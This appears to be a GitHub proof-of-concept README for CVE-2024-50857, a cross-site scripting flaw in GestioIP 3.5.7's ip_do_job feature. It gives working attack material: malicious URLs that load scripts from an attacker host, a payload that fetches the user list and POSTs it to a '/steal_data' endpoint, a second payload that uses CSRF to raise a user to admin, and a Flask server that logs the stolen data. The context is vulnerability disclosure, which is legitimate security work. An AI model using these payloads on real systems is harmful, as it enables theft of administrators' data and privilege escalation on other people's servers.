


# CVE-2024-50857

- [Information](#information)
- [Proof-of-Concept Exploit](#proof-of-concept-exploit)
	- [Description](#description)
	- [Prerequisites](#prerequisites)
	- [Case 1: Data exfiltration](#case-1-data-exfiltration)
		- [Usage/Exploitation](#usageexploitation)
	- [Case 2: XSS and CSRF chained](#case-2-xss-and-csrf-chained)
		- [Usage/Exploitation](#usageexploitation)
	- [OBS](#obs)
	- [Payloads](#payloads)
	- [Flask server](#flask-server)


## Information

**Description:** The `"ip_do_job"` request is vulnerable to XSS (Cross-Site Scripting), allowing data exfiltration and enabling CSRF (Cross-Site Request Forgery) attacks.<br>

**Versions Affected:** 3.5.7 <br>

## Proof-of-Concept Exploit

### Description

The `"ip_do_job"` feature of GestioIP 3.5.7 is vulnerable to XSS, leading to data exfiltration and CSRF attacks. Two examples (Case 1 and Case 2) are described below.

### Prerequisites

To successfully exploit the XSS vulnerability, the user must be part of a "User Group" that has the following three permissions:

• Show backuped device configurations (read_device_config_perm)

• Upload device configurations (write_device_config_perm)

• Administrate CM (administrative_cm_perm)

These permissions can be assigned to any group via:
Manage > User Groups > Configuration Management


Then select these 3 checkboxes:



The following groups have these permissions enabled by default for "Configuration Management":

◇ Admin

◇ GestioIP Admin


Note:

By default, the *gipadmin* user belongs to the "GestioIP Admin" group.


### Case 1: Data exfiltration

For example, an attacker can use this vulnerability to retrieve the list of users from the GestioIP application. If an administrator visits a malicious URL while authenticated to the application, the XSS payload will be triggered, causing the admin's browser to perform a GET request to the user list of the GestioIP application. Afterward, the browser will send a POST request to the attacker's server, exfiltrating the obtained user information.


#### Usage/Exploitation

To exploit this vulnerability, an attacker must host ```payload4.js``` on an attacker-controlled web server (eg. `python3 -m http.server 8090`) and also a python-flask server to receive the exfiltrated data.

To construct this URL the attacker uses these two parameters:

- `client_id=1`
- `stored_config='<script src="http://10.20.0.1:8090/payload4.js"></script>'`

Then, the malicious url is:

http://localhost/gestioip/res/cm/ip_do_job.cgi?client_id=1&stored_config=%27%3Cscript%20src=%22http://10.20.0.1:8090/payload4.js%22%3E%3C/script%3E%27


When an authenticated administrator clicks the malicious URL, the XSS is triggered, causing the admin's browser to collect the data and send it to the attacker's server (data exfiltration).


### Case 2: XSS and CSRF chained

The attacker has obtained a list of users using Case 1. Now the attacker assigns a user he choose the **admin** role.


#### Usage/Exploitation

To exploit this vulnerability, an attacker must host ```payload5.js``` on an attacker-controlled web server (eg. `python3 -m http.server 8090`).

To construct this URL the attacker uses these two parameters:

- `client_id=1`
- `stored_config='<script src="http://10.20.0.1:8090/payload5.js"></script>'`

Then, the malicious url is:


http://localhost/gestioip/res/cm/ip_do_job.cgi?client_id=1&stored_config=%27%3Cscript%20src=%22http://10.20.0.1:8090/payload5.js%22%3E%3C/script%3E%27


When an authenticated administrator clicks the malicious URL, the XSS is triggered, causing the admin's browser to make a request to the "ip_mod_user" feature in the application changing the "*group_id*" value (elevating privileges) to a target user.


### OBS

`host_id` is also a vulnerable parameter

http://localhost/gestioip/res/cm/ip_do_job.cgi?client_id=1&host_id='<script>alert("test")</script>'

Using parameter: `stored_config`
http://localhost/gestioip/res/cm/ip_do_job.cgi?client_id=1&stored_config='<script>alert("test")</script>'

### Payloads

`payload4.js`

``` javascript
fetch('http://localhost/gestioip/res/ip_show_user.cgi?client_id=1', {
  method: 'GET',
  credentials: 'include'
})
  .then(response => response.text())
  .then(data => {
    fetch('http://localhost:8000/steal_data', {
      method: 'POST',
      body: JSON.stringify({
        pageContent: data,
        location: window.location.href,
        userAgent: navigator.userAgent
      }),
      headers: {
        'Content-Type': 'application/json'
      }
    });
  })
  .catch(err => console.error('Error', err));
  ```


`payload5.js`

```javascript
const data = new URLSearchParams();
data.append('name', 'maxi');
data.append('group_id', '3');
data.append('email', 'maxi@test.com');
data.append('phone', '123');
data.append('comment', '');
data.append('client_id', '1');
data.append('id', '2');
data.append('B2', '');

fetch('http://localhost/gestioip/res/ip_mod_user.cgi', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/x-www-form-urlencoded',
    },
    body: data
})
.then(response => {
    if (!response.ok) {
        throw new Error('Network response was not ok ' + response.statusText);
    }
    return response.text();
})
.then(responseData => {
    console.log('Success:', responseData);
})
.catch(error => {
    console.error('Error:', error);
});
```

### Flask server

`server_flask.py`

```python
from flask import Flask, request
from flask_cors import CORS
import json

app = Flask(__name__)
CORS(app)  # enables CORS for all routes

@app.route('/steal_data', methods=['POST'])
def steal_data():
    data = request.json  # data received format: JSON
    with open('data_exfiltrated.html', 'a') as f:  # open the file in append mode
        f.write(json.dumps(data) + '\n')  # write data to file
    return 'Data received and saved', 200

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8000)
```

